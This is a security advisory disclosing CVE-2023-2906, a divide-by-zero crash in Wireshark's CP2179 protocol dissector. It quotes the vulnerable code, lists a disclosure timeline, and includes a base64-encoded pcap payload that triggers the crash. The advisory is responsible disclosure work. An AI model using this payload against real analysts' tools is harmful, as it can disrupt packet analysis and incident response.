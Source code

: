 ```yaml
---
title: CVE-2023-2906
---
```


# CVE-2023-2906: Wireshark CP2179 Parsing Divide By Zero DoS

[AHA!] has discovered a deinal-of-service issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Thursday, August 24, 2023. [CVE-2023-2906] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to a failure in validating the length provided by an attacker-crafted CP2179 packet, Wireshark versions 2.0.0 through 4.0.7 is susceptible to a divide by zero allowing for a denial of service attack. [CVE-2023-2906] appears to be an instance of [CWE-369]. Note that, according to the [patch notes](https://gitlab.com/wireshark/wireshark/-/issues/19229), this effect can only be achieved when a user triggers the vulnerable code patch with the "Decode As..." functionality of Wireshark (or the `-d` option for tshark), so this vulnerability is unlikely to be triggerable in an automated way.

# Technical Details

As can be seen in the below code from the `dissect_response_frame` function which handles parsing the different types of response frames as part of the SCADA protocol, [PG&E 2179 Protocol](https://library.e.abb.com/public/9cc84999c2239e1fc125795d003d05f8/RER620_PGE2179prot_306957_ENa.pdf).

When parsing a `TIMETAG_INFO_RESPONSE` message, a call is made to the Wireshark function `tvb_get_guint8()` (on line 723) which retrieves an 8 bit value from the pcap file. If a 0 value is provided within the `TIMETAG_INFO_RESPONSE` message for the value, a divide by zero error occurs (on line 724).

The relevant code snippet from `epan/dissectors/packet-cp2179.c` is:
```
 718                 case TIMETAG_INFO_RESPONSE:
 719                 {
 720                     proto_tree_add_item(cp2179_proto_tree, hf_cp2179_timetag_moredata, tvb, offset, 1, ENC_LITTLE_ENDIAN);
 721                     proto_tree_add_item(cp2179_proto_tree, hf_cp2179_timetag_numsets, tvb, offset, 1, ENC_LITTLE_ENDIAN);
 722 
 723                     num_records = tvb_get_guint8(tvb, offset) & 0x7F;
 724                     recordsize = (numberofcharacters-1) / num_records;
 725                     num_values = (recordsize-6) / 2;      /* Determine how many 16-bit analog values are present in each event record */
 726 
 727                     offset += 1;
```

<br/>

# Payload

A base64-encoded blob containing the pcap needed to trigger the vulnerability is provided below:

```
1MOyoQIABAAAAAAAAAAAAP9/AAD6AAAAAAAAAAAAAAAMAAAADAAAAAMAAAADAAAAAAAAAAAAAAAA
AAAAFAAAABQAAAABAAAAAQAAAAEAAAD5/wAAAAAAAAAAAAAAAAAADAAAAAwAAAADAAAAAwAAAAMA
AAAAAAAAAAAAAAwAAAAMAAAAAwAAAAMAAAAAAAAAAAAAAAAAAAAVAAAAFQAAAAMAAAADAAAAAgAA
APn/BACAAAAAAAAAAAAAAAAADAAAAAwAAAADAAAAAwAAAAQAAAA=
```

<br/>

# Attacker Value

By providing this poisoned set of packets, an attacker could crash the application (Wireshark, tshark, or possibly a custom application utilizing libwireshark) preventing further analysis. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. This leads to situations where a specially crafted packet could be used to prevent best incident response practices from taking place.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [zenofex](https://mastodon.social/@zenofex) and [WanderingGlitch](https://infosec.exchange/@WanderingGlitch)

# Timeline

* 2023-05-23 (Thu): Initial findings presented at AHA! Meeting 0x00c8
* 2023-07-08 (Sat): PoC validated and this disclosure drafted.
* 2023-07-17 (Mon): Disclosed to the vendor via email at security@wireshark.org (per the vendor [website](https://www.wireshark.org/security/)).
* 2023-07-23 (Sun): Vendor acknowledged the vulnerability in [issue 19229](https://gitlab.com/wireshark/wireshark/-/issues/19229).
* 2023-08-23 (Wed): Vendor released fixed version [4.0.8](https://www.wireshark.org/docs/relnotes/wireshark-4.0.8.html).
* 2023-08-24 (Thu): Public disclosure of [CVE-2023-2906].

<br/>

----

[CVE-2023-2906]: https://takeonme.org/cves/CVE-2023-2906.html
[CWE-369]: https://cwe.mitre.org/data/definitions/369.html
[disclosure policy]: https://takeonme.org/cve.html
[AHA!]: https://takeonme.org/
